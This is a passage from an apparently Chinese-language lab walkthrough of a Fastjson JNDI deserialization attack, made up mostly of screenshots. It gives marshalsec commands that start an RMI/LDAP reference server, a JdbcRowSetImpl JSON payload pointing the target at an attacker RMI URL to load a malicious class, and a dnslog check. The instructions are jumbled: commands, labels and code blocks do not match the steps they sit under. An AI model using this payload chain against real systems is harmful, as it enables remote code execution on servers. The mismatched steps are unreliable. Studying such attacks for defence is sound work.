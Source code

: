 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBgS6pTSYkXwJrg7MzQJkdOebocQGqKhnbibyVUvkDooqZygUiaicEBS9xjXZK3aRSQFzBCG5lQHW4iaA/640?wx_fmt=png)

###### >3 然后使用 maven 编译 marshalsec 成 jar 包，我们先进入下载的 marshalsec 文件中运行：

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.
10.65/#zcc" 9999
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBgS6pTSYkXwJrg7MzQJkdOHvLHGWgpYgc0VackiafDyOPVm6eghb6prQiaLAVZqBr5Ij8urAwWkkXQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBgS6pTSYkXwJrg7MzQJkdO1ysHmuS7QdAgRfjFddUd0qDYfLgBBJxbJIXuYdWOrLNpwUDsUX0ia7Q/640?wx_fmt=png)

###### >4 然后我们借助 marshalsec 项目，启动一个 RMI 服务器，监听 9999 端口，并制定远程加载类 TouchFile.class，这里的 ip 为你上面开启 http 服务的 ip，我们这里就是 kali 的 ip:

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168
.10.65/#zcc" 9999
```

这里如果要启动 LDAP 服务的话，只需把上面命令中的 RMI 改成 LDAP 即可，例如：  

```
{
 "b":{
 "@type":"com.sun.rowset.JdbcRowSetImpl",
 "dataSourceName":"rmi://192.168.10.65:9999/zcc",
 "autoCommit":true
 }
}
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBgS6pTSYkXwJrg7MzQJkdO0ILEekjr3y6DtCKolFgoY5Pia6A0fGhJ80ibpysCazZ6L8HrJQ8iblpsg/640?wx_fmt=png)

可以看见请求成功，并加载了恶意类。  

>5 使用 BP 抓包，并写入 poc(记住请求包里面请求方式改成 post，Content-Type 改成 application/json)：

```
http://www.dnslog.cn/
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBgS6pTSYkXwJrg7MzQJkdOicCiadSq4GXYulyO5hVbyedMjdxbJBib76icL1a34ngUzJiaKXaphDvJhwQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBgS6pTSYkXwJrg7MzQJkdOeXxnfHaGmNk4fiawGN8jZiby0jkAGYa3RbNgXJCkXxeow1TJwwhuHhkQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBgS6pTSYkXwJrg7MzQJkdOE78CCjpS9kWOdEaQev1ZAfBich8G5JZuydicMLaKsWcDMWEewYwBLrpA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBgS6pTSYkXwJrg7MzQJkdOQ6HmNRIsZUavc3e8f3wB49e26icbwyRVXUa2TyQeP7ia7oFf986hqichQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBgS6pTSYkXwJrg7MzQJkdOXWaKPM9UqB6OXA9wRIpYBm9NVjz0beKFGyPvHled4LAOazzgjKHVDw/640?wx_fmt=png)
